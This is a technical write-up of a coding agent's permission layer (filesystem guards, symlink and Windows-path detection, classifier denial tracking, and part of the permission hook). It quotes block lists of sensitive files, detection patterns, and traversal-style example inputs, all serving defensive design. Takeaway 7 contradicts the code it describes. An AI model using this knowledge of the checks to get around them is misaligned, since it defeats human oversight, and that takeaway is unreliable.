The filesystem permission layer maps directly to HER's threat model for data exfiltration (Section 12.4) and data leakage between contexts (Section 6.15). By controlling which files the agent can read and write, the filesystem guards prevent the agent from exfiltrating sensitive data through file operations and from leaking information between isolated contexts. The guards also protect against supply chain attacks (HER Section 12.4) by blocking writes to configuration files that could grant persistent access or modify the agent's behavior.

The design philosophy is defense-in-depth: multiple overlapping checks ensure that no single bypass can compromise the system. A path that passes the working-directory check must also pass the dangerous-file check, the symlink-resolution check, and the Windows-pattern check. A failure at any level results in an interactive permission prompt, not a silent allow. This layered approach is essential for a long-running agent that operates on user code for hours at a time, where a single misstep could corrupt a project or leak credentials.

## Data structures and contracts

### DANGEROUS_FILES and DANGEROUS_DIRECTORIES

The core safety lists define files and directories that require explicit human approval before the agent can edit them:

```typescript
// src/utils/permissions/filesystem.ts:L57-L79
export const DANGEROUS_FILES = [
  '.gitconfig',
  '.gitmodules',
  '.bashrc',
  '.bash_profile',
  '.zshrc',
  '.zprofile',
  '.profile',
  '.ripgreprc',
  '.mcp.json',
  '.claude.json',
] as const

export const DANGEROUS_DIRECTORIES = [
  '.git',
  '.vscode',
  '.idea',
  '.claude',
] as const
```

These lists protect shell configuration files (which could grant persistent access through shell hooks or environment variable manipulation), git configuration (which could redirect pushes to a malicious remote, embed pre-commit hooks that execute arbitrary code, or modify `.gitmodules` to clone hostile repositories), IDE settings (which could execute arbitrary code on project open through tasks or launch configurations), and Claude's own configuration (which could modify the agent's behavior through settings, hooks, or custom commands).

The `as const` assertion makes these arrays readonly and enables literal type inference, preventing accidental modification at runtime. New entries can only be added through code changes, not through user configuration -- this is a deliberate choice to prevent users from accidentally removing safety-critical entries.

### DenialTrackingState

When the classifier or rules engine denies a tool call, the denial tracking subsystem records the event and determines when the system should fall back to prompting the user:

```typescript
// src/utils/permissions/denialTracking.ts:L7-L15
export type DenialTrackingState = {
  consecutiveDenials: number
  totalDenials: number
}

export const DENIAL_LIMITS = {
  maxConsecutive: 3,
  maxTotal: 20,
} as const
```

After three consecutive denials or twenty total denials, `shouldFallbackToPrompting` returns `true`, overriding the classifier and showing the interactive permission dialog. This prevents the classifier from entering a denial loop where it repeatedly blocks the agent from making progress. The `recordSuccess` function resets `consecutiveDenials` to zero but does not reset `totalDenials`, so the total counter tracks the overall denial rate across the entire session:

```typescript
// src/utils/permissions/denialTracking.ts:L32-L38
export function recordSuccess(state: DenialTrackingState): DenialTrackingState {
  if (state.consecutiveDenials === 0) return state // No change needed
  return {
    ...state,
    consecutiveDenials: 0,
  }
}
```

The immutable state pattern (returning a new object rather than mutating the existing one) makes the denial tracking safe for concurrent access and simplifies testing.

### PermissionDecision and PermissionResult

The filesystem layer returns `PermissionDecision` objects with a `behavior` field (`allow`, `deny`, or `ask`) plus optional `suggestions` for the UI and `decisionReason` for telemetry. The `checkPathSafetyForAutoEdit` function adds a `classifierApprovable` boolean to distinguish paths that the classifier may auto-approve from those that always require human confirmation:

```typescript
// src/utils/permissions/filesystem.ts:L620-L665
export function checkPathSafetyForAutoEdit(
  path: string,
  precomputedPathsToCheck?: readonly string[],
):
  | { safe: true }
  | { safe: false; message: string; classifierApprovable: boolean } {
  // Get all paths to check (original + symlink resolved paths)
  const pathsToCheck =
    precomputedPathsToCheck ?? getPathsForPermissionCheck(path)

  // Check for suspicious Windows path patterns on all paths
  for (const pathToCheck of pathsToCheck) {
    if (hasSuspiciousWindowsPathPattern(pathToCheck)) {
      return {
        safe: false,
        message: `Claude requested permissions to write to ${path}, which contains a suspicious Windows path pattern that requires manual approval.`,
        classifierApprovable: false,
      }
    }
  }

  // Check for Claude config files on all paths
  for (const pathToCheck of pathsToCheck) {
    if (isClaudeConfigFilePath(pathToCheck)) {
      return {
        safe: false,
        message: `Claude requested permissions to write to ${path}, but you haven't granted it yet.`,
        classifierApprovable: true,
      }
    }
  }

  // Check for dangerous files on all paths
  for (const pathToCheck of pathsToCheck) {
    if (isDangerousFilePathToAutoEdit(pathToCheck)) {
      return {
        safe: false,
        message: `Claude requested permissions to edit ${path} which is a sensitive file.`,
        classifierApprovable: true,
      }
    }
  }

  // All safety checks passed
  return { safe: true }
}
```

When `classifierApprovable` is `false` (e.g., for suspicious Windows path patterns), the interactive dialog is the only option; the classifier cannot override the safety check. When `classifierApprovable` is `true` (e.g., for `.claude/settings.json` edits), the classifier may auto-approve the action if the auto-mode security policy permits it.

## Control flow

### Read permission check

`checkReadPermissionForTool` (`src/utils/permissions/filesystem.ts:L1030`) implements an eight-step decision cascade for read access. Each step is a distinct security layer, and the order matters: earlier checks take precedence over later ones, and some checks must come before others to prevent bypasses:

1. **UNC path defense-in-depth**: Block paths starting with `\\` or `//` before any other checks. UNC paths can access network resources and leak credentials.
2. **Suspicious Windows patterns**: Detect NTFS alternate data streams, 8.3 short names, long path prefixes, trailing dots, DOS device names, and triple-dot sequences.
3. **Read-specific deny rules**: Check both original and resolved symlink paths against deny rules. This must come before allow checks to prevent bypassing explicit read denials.
4. **Read-specific ask rules**: Honor explicit ask rules before implicit allow checks.
5. **Edit access implies read access**: If write access is already granted, read is allowed (but only if no read-specific deny or ask rules exist).
6. **Working directory check**: Allow reads within the project's working directories.
7. **Internal readable paths**: Allow reads from session memory, project directory, plan files, tool results, scratchpad, project temp, agent memory, memdir, tasks, teams, and bundled skills.
8. **Allow rules and default**: Check explicit allow rules; otherwise default to asking.

```mermaid
flowchart TD
    A[checkReadPermissionForTool] --> B{UNC path?}
    B -->|yes| C[behavior: ask]
    B -->|no| D{Suspicious Windows pattern?}
    D -->|yes| C
    D -->|no| E{Read deny rule?}
    E -->|yes| F[behavior: deny]
    E -->|no| G{Read ask rule?}
    G -->|yes| C
    G -->|no| H{Edit access allowed?}
    H -->|yes| I[behavior: allow]
    H -->|no| J{In working directory?}
    J -->|yes| I
    J -->|no| K{Internal readable path?}
    K -->|yes| I
    K -->|no| L{Read allow rule?}
    L -->|yes| I
    L -->|no| C
```

### Write permission check

`checkWritePermissionForTool` (`src/utils/permissions/filesystem.ts:L1205`) follows a similar but more restrictive cascade with additional safety layers. The key difference from the read check is the `checkEditableInternalPath` function, which carves out internal paths that the agent can write without asking, and the `.claude/` session-level allow bypass, which allows session-scoped rules to override the dangerous-directory check for `.claude/` paths.

The `.claude/` bypass is carefully scoped: only session-level rules (not user or project settings) can bypass the safety check, and the rule content must end with `/**` and not contain `..`. This prevents users from accidentally granting permanent access to their `.claude/` directory through a user-level settings file:

```typescript
// src/utils/permissions/filesystem.ts:L1262-L1300
const claudeFolderAllowRule = matchingRuleForInput(
  path,
  {
    ...toolPermissionContext,
    alwaysAllowRules: {
      session: toolPermissionContext.alwaysAllowRules.session ?? [],
    },
  },
  'edit',
  'allow',
)
if (claudeFolderAllowRule) {
  const ruleContent = claudeFolderAllowRule.ruleValue.ruleContent
  if (
    ruleContent &&
    (ruleContent.startsWith(CLAUDE_FOLDER_PERMISSION_PATTERN.slice(0, -2)) ||
      ruleContent.startsWith(
        GLOBAL_CLAUDE_FOLDER_PERMISSION_PATTERN.slice(0, -2),
      )) &&
    !ruleContent.includes('..') &&
    ruleContent.endsWith('/**')
  ) {
    return {
      behavior: 'allow',
      updatedInput: input,
      decisionReason: {
        type: 'rule',
        rule: claudeFolderAllowRule,
      },
    }
  }
}
```

The `alwaysAllowRules` override scopes the search to session-only rules, so the dialog's "allow Claude to edit its own settings for this session" option actually works even if broader user-level rules exist.

### Pattern matching with the ignore library

The `matchingRuleForInput` function (`src/utils/permissions/filesystem.ts:L955`) uses the `ignore` npm package (which implements gitignore-style pattern matching) to match file paths against permission rules. Each rule is resolved relative to its source root (user settings, project settings, etc.) and then converted to a POSIX-style relative path for matching:

```typescript
// src/utils/permissions/filesystem.ts:L988-L1020
const ig = ignore().add(patterns)
const relativePathStr = relativePath(
  root ?? getCwd(),
  fileAbsolutePath ?? getCwd(),
)
if (relativePathStr.startsWith(`..${DIR_SEP}`)) {
  // The path is outside the root, so ignore it
  continue
}
if (!relativePathStr) {
  continue
}
const igResult = ig.test(relativePathStr)
if (igResult.ignored && igResult.rule) {
  const originalPattern = igResult.rule.pattern
  const withWildcard = originalPattern + '/**'
  if (patternMap.has(withWildcard)) {
    return patternMap.get(withWildcard) ?? null
  }
  return patternMap.get(originalPattern) ?? null
}
```

The `/**` suffix handling is important: the `ignore` library treats a bare path like `.env` as matching both the file itself and everything inside it (if it is a directory). When the original rule is `.env/**`, the code strips the `/**` before adding the pattern to the `ignore` instance, then checks both the stripped pattern and the original pattern with `/**` when a match is found. This ensures that `.env/**` matches `.env/foo` while `.env` matches only the `.env` file or directory itself.

### Path safety validation

`checkPathSafetyForAutoEdit` checks both the original path and all resolved symlink paths against three safety categories: suspicious Windows patterns, Claude configuration files, and dangerous files/directories. The symlink resolution is critical -- without it, a symlink pointing from a safe location to `.bashrc` would bypass the dangerous file check. The function also handles the `.claude/worktrees/` exception: the `.claude` directory is in `DANGEROUS_DIRECTORIES`, but worktree directories (which the agent creates and manages) are allowed:

```typescript
// src/utils/permissions/filesystem.ts:L460-L468
if (dir === '.claude') {
  const nextSegment = pathSegments[i + 1]
  if (
    nextSegment &&
    normalizeCaseForComparison(nextSegment) === 'worktrees'
  ) {
    break // Skip this .claude, continue checking other segments
  }
}
```

### Denial tracking state machine

The denial tracking subsystem implements a simple two-counter state machine:

```mermaid
stateDiagram-v2
    [*] --> Clean: createDenialTrackingState
    Clean --> OneDenial: recordDenial
    OneDenial --> TwoDenials: recordDenial
    TwoDenials --> ThreeDenials: recordDenial
    ThreeDenials --> Fallback: shouldFallbackToPrompting returns true
    Clean --> Clean: recordSuccess
    OneDenial --> Clean: recordSuccess
    TwoDenials --> Clean: recordSuccess
    ThreeDenials --> Clean: recordSuccess
    Fallback --> [*]: Interactive prompt shown
```

The `totalDenials` counter never resets, providing a session-long view of the denial rate. If the total reaches 20, the system falls back to prompting regardless of consecutive denials. This catches slow-burn denial patterns where the classifier denies occasionally (but not consecutively) over a long session.

### Internal path carve-outs

The `checkEditableInternalPath` and `checkReadableInternalPath` functions define which internal paths the agent can access without explicit permission. These carve-outs are essential because many internal paths live under directories that are otherwise dangerous (e.g., session memory under `~/.claude/`, tool results under `/tmp/`). Without the carve-outs, every internal access would trigger a permission prompt. The edit check covers plan files, scratchpad, job directories, agent memory, memdir, and `.claude/launch.json`:

```typescript
// src/utils/permissions/filesystem.ts:L1479-L1498
export function checkEditableInternalPath(
  absolutePath: string,
  input: { [key: string]: unknown },
): PermissionResult {
  // SECURITY: Normalize path to prevent traversal bypasses via .. segments
  // This is defense-in-depth; individual helper functions also normalize
  const normalizedPath = normalize(absolutePath)

  // Plan files for current session
  if (isSessionPlanFile(normalizedPath)) {
    return {
      behavior: 'allow',
      updatedInput: input,
      decisionReason: {
        type: 'other',
        reason: 'Plan files for current session are allowed for writing',
      },
    }
  }

  // Scratchpad directory for current session
  if (isScratchpadPath(normalizedPath)) {
    return {
      behavior: 'allow',
      updatedInput: input,
      decisionReason: {
        type: 'other',
        reason: 'Scratchpad files for current session are allowed for writing',
      },
    }
  }
```

The read check extends the edit carve-outs with additional readable paths: session memory, project directory, tool results, project temp, tasks, teams, and bundled skills:

```typescript
// src/utils/permissions/filesystem.ts:L1611-L1631
export function checkReadableInternalPath(
  absolutePath: string,
  input: { [key: string]: unknown },
): PermissionResult {
  // SECURITY: Normalize path to prevent traversal bypasses via .. segments
  // This is defense-in-depth; individual helper functions also normalize
  const normalizedPath = normalize(absolutePath)

  // Session memory directory
  if (isSessionMemoryPath(normalizedPath)) {
    return {
      behavior: 'allow',
      updatedInput: input,
      decisionReason: {
        type: 'other',
        reason: 'Session memory files are allowed for reading',
      },
    }
  }

  // Project directory (for reading past session memories)
  // Path format: ~/.claude/projects/{sanitized-cwd}/...
  if (isProjectDirPath(normalizedPath)) {
    return {
      behavior: 'allow',
      updatedInput: input,
      decisionReason: {
        type: 'other',
        reason: 'Project directory files are allowed for reading',
      },
    }
  }
```

Both functions normalize the input path before checking, providing defense-in-depth against traversal bypasses via `..` segments. The `checkEditableInternalPath` function also includes a sophisticated hijack guard for the template job directory: every resolved form of the job directory must sit under some resolved form of the jobs root, and every resolved form of the write target must sit under the job directory. This prevents symlinks inside a job directory from granting writes to arbitrary locations.

### Path-in-working-directory check

The `pathInWorkingPath` function (`src/utils/permissions/filesystem.ts:L709`) determines whether a given path falls within a working directory. This is the primary allow mechanism for the default permission mode: reads within the working directory are allowed, and writes within the working directory are allowed in acceptEdits mode. The function handles macOS symlink issues by normalizing `/private/var/` to `/var/` and `/private/tmp/` to `/tmp/` on both sides of the comparison:

```typescript
// src/utils/permissions/filesystem.ts:L716-L743
  const normalizedPath = absolutePath
    .replace(/^\/private\/var\//, '/var/')
    .replace(/^\/private\/tmp(\/|$)/, '/tmp$1')
  const normalizedWorkingPath = absoluteWorkingPath
    .replace(/^\/private\/var\//, '/var/')
    .replace(/^\/private\/tmp(\/|$)/, '/tmp$1')

  // Normalize case for case-insensitive comparison to prevent bypassing security
  // checks on case-insensitive filesystems (macOS/Windows) like .cLauDe/CoMmAnDs
  const caseNormalizedPath = normalizeCaseForComparison(normalizedPath)
  const caseNormalizedWorkingPath = normalizeCaseForComparison(
    normalizedWorkingPath,
  )

  // Use cross-platform relative path helper
  const relative = relativePath(caseNormalizedWorkingPath, caseNormalizedPath)

  // Same path
  if (relative === '') {
    return true
  }

  if (containsPathTraversal(relative)) {
    return false
  }

  // Path is inside (relative path that doesn't go up)
  return !posix.isAbsolute(relative)
}
```

The `containsPathTraversal` check ensures that a path like `project/../../etc/passwd` is rejected even if it starts within the working directory. The final `!posix.isAbsolute(relative)` check ensures that the relative path does not escape upward (a relative path that goes up would be absolute from the working directory's perspective, starting with `..`).

### Suggestion generation

When a permission check results in an `ask` decision, the `generateSuggestions` function (`src/utils/permissions/filesystem.ts:L1414`) generates actionable suggestions for the user. For reads outside the working directory, it suggests adding a Read rule for the directory (including both the original and symlink-resolved paths). For writes, it suggests switching to acceptEdits mode (but only when it would be an upgrade from default or plan mode, not a downgrade from auto or bypassPermissions):

```typescript
// src/utils/permissions/filesystem.ts:L1443-L1447
const shouldSuggestAcceptEdits =
  toolPermissionContext.mode === 'default' ||
  toolPermissionContext.mode === 'plan'
```

This prevents a subtle bug where suggesting acceptEdits in auto mode would silently downgrade the user from classifier-based auto-approval to blanket edit approval, which then prompts for MCP and Bash operations that auto mode would have handled automatically.

The editable internal paths, scratchpad files, job directory files (for the template system), agent memory files, memdir files (but only the default path, not user-overridden paths), and `.claude/launch.json` (for the desktop preview workflow). The readable internal paths include all of these plus the project directory, tool results directory, project temp directory, tasks directory, teams directory, and bundled skills directory.

The scratchpad carve-out includes secure directory creation:

```typescript
// src/utils/permissions/filesystem.ts:L394-L407
export async function ensureScratchpadDir(): Promise<string> {
  if (!isScratchpadEnabled()) {
    throw new Error('Scratchpad directory feature is not enabled')
  }

  const fs = getFsImplementation()
  const scratchpadDir = getScratchpadDir()

  // Create directory recursively with secure permissions (owner-only access)
  // FsOperations.mkdir handles recursive: true internally and is a no-op if dir exists
  await fs.mkdir(scratchpadDir, { mode: 0o700 })

  return scratchpadDir
}
```

The `0o700` mode ensures that only the current user can read, write, or execute files in the scratchpad directory. This is a defense-in-depth measure: even though the scratchpad is inside the per-user temp directory (which is already scoped by UID), the restrictive permissions prevent other users on the same system from reading the agent's temporary files.

The bundled skills directory also has a security-critical design: the `getBundledSkillsRoot` function includes a per-process random nonce that makes the extraction directory unpredictable. The function is memoized so that the extraction writes and the permission check agree on the path for the life of the process:

```typescript
// src/utils/permissions/filesystem.ts:L365-L370
export const getBundledSkillsRoot = memoize(
  function getBundledSkillsRoot(): string {
    const nonce = randomBytes(16).toString('hex')
    return join(getClaudeTempDir(), 'bundled-skills', MACRO.VERSION, nonce)
  },
)
```

The `MACRO.VERSION` component ensures that stale extractions from other binary versions do not fall under the allowlist. The nonce ensures that a local attacker cannot pre-create the tree on a shared `/tmp` -- the sticky bit prevents deletion but not creation, and `O_NOFOLLOW` only checks the final component of the path.

## Edge cases and failure modes

**Case-insensitive bypass on macOS/Windows**: A path like `.cLauDe/Settings.locaL.json` would bypass a naive string comparison against `.claude`. The `normalizeCaseForComparison` function (`src/utils/permissions/filesystem.ts:L90`) always lowercases paths for comparison, regardless of platform, ensuring consistent security on case-insensitive filesystems:

```typescript
// src/utils/permissions/filesystem.ts:L90-L92
export function normalizeCaseForComparison(path: string): string {
  return path.toLowerCase()
}
```

The function is used in every path comparison, including `isClaudeSettingsPath`, `isDangerousFilePathToAutoEdit`, `pathInWorkingPath`, and the `.claude/` session bypass check.

**Symlink traversal to dangerous files**: A symlink at `project/innocent.txt` pointing to `~/.bashrc` must still be blocked. The `getPathsForPermissionCheck` function resolves symlink chains and returns all canonical paths, which are then checked against the safety lists. The `.claude/worktrees/` exception (`src/utils/permissions/filesystem.ts:L460`) allows the agent to write inside worktree directories even though `.claude` is normally dangerous. Any nested `.claude` directories within the worktree (not followed by `worktrees`) are still blocked.

**NTFS alternate data streams**: On Windows, `file.txt:hidden` creates an alternate data stream. The `hasSuspiciousWindowsPathPattern` function (`src/utils/permissions/filesystem.ts:L537`) detects colons after position 2 (to skip drive letters like `C:\`) and blocks the path. On Linux/macOS, even with NTFS mounted, ADS is accessed via xattrs rather than colon syntax, so the colon check is limited to Windows/WSL.

**8.3 short names**: `GIT~1` or `CLAUDE~1` could bypass string checks. The regex `/~\d/` catches any tilde-digit sequence. Similarly, long path prefixes (`\\?\C:\...`), trailing dots (`.git.`), DOS device names (`.git.CON`), and triple-dot sequences (`.../file`) are all detected and blocked. The `hasSuspiciousWindowsPathPattern` function (`src/utils/permissions/filesystem.ts:L537`) implements all of these checks in a single function, and it is called on all platforms (not just Windows) because NTFS filesystems can be mounted on Linux and macOS:

```typescript
// src/utils/permissions/filesystem.ts:L546-L601
function hasSuspiciousWindowsPathPattern(path: string): boolean {
  // Check for NTFS Alternate Data Streams
  if (getPlatform() === 'windows' || getPlatform() === 'wsl') {
    const colonIndex = path.indexOf(':', 2)
    if (colonIndex !== -1) {
      return true
    }
  }

  // Check for 8.3 short names
  // Look for '~' followed by a digit
  // Examples: GIT~1, CLAUDE~1, SETTIN~1.JSON, BASHRC~1
  if (/~\d/.test(path)) {
    return true
  }

  // Check for long path prefixes (both backslash and forward slash variants)
  // Examples: \\?\C:\Users\..., \\.\C:\..., //?/C:/..., //./C:/...
  if (
    path.startsWith('\\\\?\\') ||
    path.startsWith('\\\\.\\') ||
    path.startsWith('//?/') ||
    path.startsWith('//./')
  ) {
    return true
  }

  // Check for trailing dots and spaces that Windows strips during path resolution
  // Examples: .git., .claude , .bashrc..., settings.json.
  // This can bypass string matching if ".git" is blocked but ".git." is used
  if (/[.\s]+$/.test(path)) {
    return true
  }

  // Check for DOS device names that Windows treats as special devices
  // Examples: .git.CON, settings.json.PRN, .bashrc.AUX
  // Device names: CON, PRN, AUX, NUL, COM1-9, LPT1-9
  if (/\.(CON|PRN|AUX|NUL|COM[1-9]|LPT[1-9])$/i.test(path)) {
    return true
  }

  // Check for three or more consecutive dots (...) when used as a path component
  // This pattern can be used to bypass security checks or create confusion
  // Examples: .../file.txt, path/.../file
  // Only block when dots are preceded AND followed by path separators (/ or \)
  // This allows legitimate uses like Next.js catch-all routes [...]name]
  if (/(^|\/|\\)\.{3,}(\/|\\|$)/.test(path)) {
    return true
  }

  // Check for UNC paths (on all platforms for defense-in-depth)
  // Examples: \\server\share, \\foo.com\file, //server/share, \\192.168.1.1\share
  // UNC paths can access remote resources, leak credentials, and bypass working directory restrictions
  if (containsVulnerableUncPath(path)) {
    return true
  }

  return false
}
```

The comment in the source code explains why detection is preferred over normalization: filesystem-dependent normalization has TOCTOU (Time-Of-Check-Time-Of-Use) vulnerabilities, because the filesystem state can change between normalization and actual file access. Pattern detection is more predictable and does not depend on external system state.

**macOS symlink resolution**: `/tmp` is a symlink to `/private/tmp` on macOS. The `pathInWorkingPath` function (`src/utils/permissions/filesystem.ts:L709`) normalizes both sides by replacing `/private/var/` with `/var/` and `/private/tmp` with `/tmp` before comparison. `getClaudeTempDir` (`src/utils/permissions/filesystem.ts:L331`) also resolves the base tmpdir symlink so that permission checks agree on the canonical path.

**Bundled skills nonce defense**: The `getBundledSkillsRoot` function (`src/utils/permissions/filesystem.ts:L365`) generates a per-process random nonce that forms part of the extraction directory path. This prevents local attackers from pre-creating the directory tree on a shared `/tmp` and either symlinking intermediate directories or swapping file contents for prompt injection. The nonce is memoized so the extraction writes and the permission check agree on the path for the life of the process.

**CLAUDE skill scope narrowing**: When a file is under `.claude/skills/{name}/`, the `getClaudeSkillScope` function (`src/utils/permissions/filesystem.ts:L101`) generates a narrowed permission pattern scoped to just that skill directory. This allows users to grant session access to a single skill without exposing all of `.claude/`. The function checks both the project-local and home-directory skill roots, rejects skill names containing `..` or glob metacharacters to prevent traversal attacks and pattern injection, and requires a separator after the skill name (so a file directly under `skills/` does not receive a scoped pattern):

```typescript
// src/utils/permissions/filesystem.ts:L101-L157
export function getClaudeSkillScope(
  filePath: string,
): { skillName: string; pattern: string } | null {
  const absolutePath = expandPath(filePath)
  const absolutePathLower = normalizeCaseForComparison(absolutePath)

  const bases = [
    {
      dir: expandPath(join(getOriginalCwd(), '.claude', 'skills')),
      prefix: '/.claude/skills/',
    },
    {
      dir: expandPath(join(homedir(), '.claude', 'skills')),
      prefix: '~/.claude/skills/',
    },
  ]

  for (const { dir, prefix } of bases) {
    const dirLower = normalizeCaseForComparison(dir)
    // Try both path separators (Windows paths may not be normalized to /)
    for (const s of [sep, '/']) {
      if (absolutePathLower.startsWith(dirLower + s.toLowerCase())) {
        const rest = absolutePath.slice(dir.length + s.length)
        const slash = rest.indexOf('/')
        const bslash = sep === '\\' ? rest.indexOf('\\') : -1
        const cut =
          slash === -1
            ? bslash
            : bslash === -1
              ? slash
              : Math.min(slash, bslash)
        // Require a separator: file must be INSIDE the skill dir
        if (cut <= 0) return null
        const skillName = rest.slice(0, cut)
        // Reject traversal and empty
        if (!skillName || skillName === '.' || skillName.includes('..')) {
          return null
        }
        // Reject glob metacharacters
        if (/[*?[\]]/.test(skillName)) return null
        return { skillName, pattern: prefix + skillName + '/**' }
      }
    }
  }

  return null
}
```

The `pattern` field produces a gitignore-style glob like `/.claude/skills/my-skill/**`, which the `matchingRuleForInput` function can match against the file path. The `..` rejection mirrors the `ruleContent.includes('..')` guard in the `.claude/` session bypass check, ensuring that a skill name like `v2..beta` cannot produce a suggestion that the bypass check would always reject (which would create a dead suggestion and infinite re-prompt).

## Where cc diverges from the published pattern

HER Section 12.4 recommends allowlisting external endpoints and monitoring tool call parameters for sensitive data patterns. cc's filesystem layer implements a stronger version of this: rather than monitoring for patterns, it proactively blocks entire categories of dangerous paths and requires explicit allow rules to bypass them. This is more restrictive but also more predictable. The `classifierApprovable` flag on safety checks provides a middle ground: paths that are dangerous but not inherently malicious can be auto-approved by the classifier, while paths that require human judgment (like suspicious Windows patterns) cannot.

HER Section 6.15 identifies file-based communication as a source of data leakage between contexts. cc's `checkEditableInternalPath` and `checkReadableInternalPath` functions mitigate this by allowing the agent to read/write internal paths without explicit permission, but only within the current session's namespace. Cross-session file access is limited to the project directory (for reading past sessions) and project temp directory, both of which are scoped to the project root. However, the project temp directory intentionally allows reading files from all sessions in the same project, which could leak information between concurrent sessions.

The denial tracking subsystem diverges from HER's tiered escalation model (Section 11.2) by using a simple counter-based approach rather than a multi-tier system. After three consecutive denials or twenty total denials, the system falls back to prompting, but there is no intermediate tier where the agent can self-correct before escalating to the user. This simplification may cause more interruptions than necessary in long-running sessions, but it also prevents the classifier from entering an infinite denial loop.

## Developer takeaways for building a long-running agent

1. **Check resolved paths, not original paths**: Symlinks can redirect an apparently safe path to a dangerous target. Always resolve the full symlink chain and check every canonical path against your safety lists. The `getPathsForPermissionCheck` helper in cc does this once per operation and threads the result through all subsequent checks to avoid redundant syscalls.

2. **Case-insensitive comparison on all platforms**: Even if your primary target is Linux, users may mount case-insensitive filesystems or run WSL. Always normalize case for security comparisons, not just on Windows.

3. **Denial tracking prevents classifier death spirals**: Without a fallback mechanism, a misconfigured classifier can block the agent indefinitely. Track consecutive and total denials, and escalate to the user after a threshold. cc's thresholds of 3 consecutive and 20 total are conservative; tune these based on your agent's typical denial rate.

4. **Per-process nonces prevent tmp squatting**: If you extract content to shared temp directories, include a random nonce in the path to prevent pre-creation attacks. The nonce must be memoized so that the extraction and permission check agree on the path.

5. **Internal path carve-outs must come before safety checks**: cc's `.claude/` directory is in `DANGEROUS_DIRECTORIES`, but internal paths like plan files and scratchpads live under `.claude/`. The `checkEditableInternalPath` function runs before the safety check, so these paths get auto-approved despite being in a "dangerous" directory. Without this ordering, every plan write would prompt the user.

6. **Skill-scoped permission narrowing reduces blast radius**: When iterating on a single skill, users should not need to grant access to all of `.claude/`. The `getClaudeSkillScope` function generates a pattern scoped to just the skill directory, allowing fine-grained permission grants. This pattern applies broadly: any hierarchical permission system should support both broad and narrow grants.

7. **The `classifierApprovable` flag enables defense-in-depth with escape hatches**: Not all dangerous paths are equally dangerous. Editing `.bashrc` is genuinely risky and should always require human confirmation (`classifierApprovable: true`), but suspicious Windows path patterns indicate potential exploitation attempts and should never be auto-approved (`classifierApprovable: false`). Distinguishing these cases allows the classifier to reduce interruption fatigue while maintaining security for the most critical paths.
# `useCanUseTool`: The Engine Hook

## Overview

`useCanUseTool` is a ~200 LOC React hook that serves as the bridge between the permission decision engine and the interactive UI. Every tool invocation in Claude Code passes through this hook, which evaluates the decision from `hasPermissionsToUseTool` and then routes to the appropriate handler: auto-approve for allowed actions, denial recording for blocked ones, and interactive permission dialogs for actions requiring human input. The hook also manages speculative classifier checks for Bash commands and coordinates with swarm worker and coordinator handlers.

This chapter maps the hook's logic to HER's tiered escalation model (Section 11.2) and async approval pattern (Section 11.3). The hook implements a four-tier escalation path: deterministic rule evaluation (Tier 1), classifier auto-approval/denial (Tier 2), coordinator and swarm worker automated checks (Tier 2-3), and interactive human approval (Tier 4). Understanding this escalation path is essential for anyone building a permission system that must balance safety with usability in a long-running agent.

The hook is implemented as a React hook rather than a plain function because it needs access to React state setters (`setToolUseConfirmQueue` and `setToolPermissionContext`) that drive the permission dialog UI. The React Compiler's `_c` runtime caches the callback across renders, preventing unnecessary re-creation of the permission evaluation function. This design choice means that the permission evaluation is tightly coupled to the React rendering cycle, which has implications for testing and for any non-React execution contexts.

## Data structures and contracts

### CanUseToolFn type

The hook's return type is a function signature that accepts a tool, input, context, assistant message, tool use ID, and optional forced decision:

```typescript
// src/hooks/useCanUseTool.tsx:L27
export type CanUseToolFn<Input extends Record<string, unknown> = Record<string, unknown>> = (
  tool: ToolType, input: Input, toolUseContext: ToolUseContext,
  assistantMessage: AssistantMessage, toolUseID: string,
  forceDecision?: PermissionDecision<Input>,
) => Promise<PermissionDecision<Input>>
```

The `forceDecision` parameter allows callers (e.g., test harnesses or programmatic tool dispatch) to bypass the normal permission evaluation and directly resolve with a specific decision. This is the only escape hatch in the permission pipeline: when `forceDecision` is provided, the `hasPermissionsToUseTool` call is skipped entirely, and the forced decision is used directly.

### PermissionDecision variants

The decision engine returns one of three `behavior` values:

- **`allow`**: The tool may proceed. Optionally includes `updatedInput` (e.g., when a classifier sanitizes a command) and `decisionReason` (tracking whether the decision came from a rule, the classifier, or a mode setting).
- **`deny`**: The tool is blocked. Includes a `message` explaining the denial. In auto mode, the denial is recorded for telemetry and the user is notified via an inline notification.
- **`ask`**: The tool requires human approval. Includes `message`, optional `suggestions` for the UI, and `decisionReason`. The `suggestions` array provides actionable options like switching to acceptEdits mode or adding a directory to the allow list.

### PermissionContext helper

The `createPermissionContext` helper (`src/hooks/toolPermission/PermissionContext.ts:L96`) encapsulates the resolve function, abort detection, logging, and queue operations into a single frozen object that is threaded through all the handlers. The context is created at the top of the permission promise and provides the methods that every handler uses to resolve, log, or cancel:

```typescript
// src/hooks/toolPermission/PermissionContext.ts:L106-L347
const ctx = {
  tool,
  input,
  toolUseContext,
  assistantMessage,
  messageId,
  toolUseID,
  logDecision(
    args: PermissionDecisionArgs,
    opts?: { input?: Record<string, unknown>; permissionPromptStartTimeMs?: number },
  ) {
    logPermissionDecision(
      { tool, input: opts?.input ?? input, toolUseContext, messageId, toolUseID },
      args,
      opts?.permissionPromptStartTimeMs,
    )
  },
  logCancelled() {
    logEvent('tengu_tool_use_cancelled', {
      messageID: messageId as AnalyticsMetadata_I_VERIFIED_THIS_IS_NOT_CODE_OR_FILEPATHS,
      toolName: sanitizeToolNameForAnalytics(tool.name),
    })
  },
  async persistPermissions(updates: PermissionUpdate[]) {
    if (updates.length === 0) return false
    persistPermissionUpdates(updates)
    const appState = toolUseContext.getAppState()
    setToolPermissionContext(
      applyPermissionUpdates(appState.toolPermissionContext, updates),
    )
    return updates.some(update => supportsPersistence(update.destination))
  },
  resolveIfAborted(resolve: (decision: PermissionDecision) => void) {
    if (!toolUseContext.abortController.signal.aborted) return false
    this.logCancelled()
    resolve(this.cancelAndAbort(undefined, true))
    return true
  },
  cancelAndAbort(
    feedback?: string,
    isAbort?: boolean,
    contentBlocks?: ContentBlockParam[],
  ): PermissionDecision {
    const sub = !!toolUseContext.agentId
    const baseMessage = feedback
      ? `${sub ? SUBAGENT_REJECT_MESSAGE_WITH_REASON_PREFIX : REJECT_MESSAGE_WITH_REASON_PREFIX}${feedback}`
      : sub
        ? SUBAGENT_REJECT_MESSAGE
        : REJECT_MESSAGE
    const message = sub ? baseMessage : withMemoryCorrectionHint(baseMessage)
    if (isAbort || (!feedback && !contentBlocks?.length && !sub)) {
      logForDebugging(
        `Aborting: tool=${tool.name} isAbort=${isAbort} hasFeedback=${!!feedback} isSubagent=${sub}`,
      )
